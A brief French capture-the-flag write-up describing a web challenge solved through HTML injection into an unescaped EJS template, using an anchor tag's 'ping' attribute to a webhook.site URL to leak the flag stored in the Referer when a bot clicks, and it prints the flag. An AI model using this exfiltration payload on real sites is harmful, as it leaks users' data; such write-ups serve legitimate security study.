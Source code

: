 # Solve

Dans ce challenge, on peut voir que le bot visite une page ou les joueurs peuvent rapporter des offres, on remarque aussi l'utilisation de la syntaxe suivante dans la page de report (report.ejs):

```html
<%- data.reason %>
```

On peut donc injecter n'importe quel HTML/JavaScript, mais cela ne sera pas possible à cause de la ligne suivante :

```js
await page.setJavaScriptEnabled(false); // On m'a toujours dit de ne jamais faire confiance aux utilisateurs
```

Heureusement, dans le tag `a`, il existe un attribut du nom de `ping` qui permet, lorsqu'on clique sur la balise en question, d'envoyer une requête POST avec plein d'informations, dont le `Referrer` (là ou notre flag est stocké).

Il faut donc réaliste une injection HTML pour faire un clickjacking et récupérer le flag :

```html
<a id="delete" name="delete" href="https://webhook.site/[UUID]" ping="https://webhook.site/[UUID]">click here</a>
```

# Flag

BZHCTF{d1d_u_p1ng_m3??}